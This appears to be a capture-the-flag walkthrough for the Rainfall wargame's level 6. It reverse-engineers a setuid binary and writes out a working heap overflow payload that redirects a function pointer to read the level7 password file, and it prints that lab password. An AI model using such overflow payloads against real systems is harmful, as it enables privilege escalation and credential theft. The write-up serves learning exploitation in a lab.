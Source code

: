 # Rainfall Level 6 Guide
This guide will walk you through the process of finding the password for the `level6` user.

## 1. Examine your environment
   
`id` : Shows user and group identities that you have.
```bash
uid=2064(level6) gid=2064(level6) groups=2064(level6),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level6
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
```

We can see that the `level6` binary has the `setuid` bit set, which means that it runs with the permissions of the owner of the file. In this case, the owner is `level7`. It executable by the `users` group, our current group.

We execute the binary to see what it does. It segfaults.
```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
```
With an argument, it prints `Nope`.
```bash
level6@RainFall:~$ ./level6 test
Nope
```

## 2. Reverse engineering

We will use Ghidra to reverse engineer the binary.
You can find the analysis in [Ressources/ghidra_analyse_level6.c](Ressources/ghidra_analyse_level6.c), and the reconstructed C code in [source.c](source.c).

## 3. Analysis

We find a main function, that declares two variables, `dest` and `func`.
`dest` is a 64 bytes buffer, and `func` is a pointer to a function that takes no arguments and returns nothing.

```c
int main(int ac, char **av)
{
    char *dest;
    function_ptr *func;

    dest = (char *)malloc(64);
    func = (function_ptr *)malloc(4);
    *func = m;
    strcpy(dest, av[1]);
    (**func)();
    return(0);
}
```

`func` is set to the address of the function `m`, that prints `Nope`.
```c
void m(void)
{
    puts("Nope");
    return;
}
```
`dest` is copied from the first argument with `strcpy`.
Then, the function pointed by `func` is called with `(**func)();`, so `m` is called.

With Ghidra, we can see another function, `n`, that calls `system("/bin/cat /home/user/level7/.pass");`. But it is never called in our main function.
```c
void n(void)
{
    system("/bin/cat /home/user/level7/.pass");
    return;
}
```
We will try to execute the `n` function.

## 4. Find the `n` function address

We will use `objdump` to find the address of the `n` function. We can user `grep` to search the `n` char, or we can user `less` and search `n` with `/n`.
```bash
level6@RainFall:~$ objdump -d ./level6 | grep n
08048454 <n>:
```
We found the address of the `n` function: `0x08048454`.

## 5. Exploitation

### 5.1. Find the offset

The program call `strcpy(dest, av[1]);` without checking the size of the buffer `dest`. We can overflow the buffer and try to search the `eip` address to overwrite it with the address of the `n` function.

We generate a pattern with `Wiremask` and send it to the program.
```bash
level6@RainFall:~$ gdb ./level6
(gdb) run run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
```
Now, we can check the `eip` value.
```bash
(gdb) info register eip
eip            0x41346341	0x41346341
```
The `eip` value is `0x41346341`. We can indicate this value to `Wiremask` to find the offset. `Wiremask` return `72`.

### 5.2. Overwrite the `eip`

We will overwrite the `eip` with the address of the `n` function.
The offset is `72`, and the address of the `n` function is `0x08048454`.
`0x08048454` in little-endian is `"\x54\x84\x04\x08"`.
So we can construct our payload with 72 bytes of padding and the address of the `n` function after.
```bash
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Congratulations!
We can now connect to the `level7` user with this password.
```bash
level6@RainFall:~$ su level7
Password:
level7@RainFall:~$
```
